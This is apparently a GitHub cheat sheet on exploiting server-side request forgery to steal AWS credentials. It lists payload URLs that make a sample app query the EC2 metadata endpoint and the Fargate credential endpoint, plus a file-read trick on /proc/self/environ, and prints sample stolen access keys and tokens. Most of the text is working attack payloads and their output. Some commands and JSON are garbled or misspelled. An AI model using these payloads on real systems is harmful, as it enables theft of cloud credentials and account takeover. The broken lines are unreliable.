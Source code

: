 # Metadata Server Side Request Forgery (SSRF)

## WARNING: Only working with IMDSv1. Enabling IMDSv2 : aws ec2 modify-instance-metadataoptions --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required .

### In order to usr IMDSv2 you must provide a token.

    export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"

# Method for Elastic Cloud Compute (EC2)

### Example: 

    https://awesomeapp.com/forward?target=http://169.254.169.254/latest/metadata/iam/security-credentials/Awesome-WAF-Role/

## 1) Access the IAM : 

    https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/

 - ami-id

 - ami-launch-index

 - ami-manifest-path

 - block-device-mapping/

 - events/

 - hostname

 - iam/

 - identity-credentials/

 - instance-action

 - instance-id

## 2) Find the name of the role assigned to the instance: 

    https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/

## 3) Extract the role's temporary keys: 

    https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/Awesome-WAFRole/

    {
    "Code" : "Success",
    "LastUpdated" : "2019-07-31T23:08:10Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIA54BL6PJR37YOEP67",
    "SecretAccessKey" : "OiAjgcjm1oi2xxxxxxxxOEXkhOMhCOtJMP2",
    "Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
    "Expiration" : "2019-08-01T05:20:30Z"
    }

# Method for Container Service (Fargate)

## 1) Fetch the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI variable from: 

    https://awesomeapp.com/download?file=/proc/self/environ

    JAVA_ALPINE_VERSION=8.212.04-r0
    HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
    AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-
    AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH

## 2) Use the credential URL to dump the AccessKey and SecretKey: https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447

    {
    "RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
    "AccessKeyId": "ASIA54BL6PJR2L75XHVS",
    "SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhbObuTBKcemfrIygt",
    "Token": "FQoGZXIvYXdzEMj//////////wEaDEQW+wwBtaoyqH5lNSLGBF3PnwnLYa3ggfKBtLMoWCEyYklw6YX85koqNwKMYrP6ymcjv4X2gF5enPi9/"Expiration": "2019-09-18T04:05:59Z"
    }
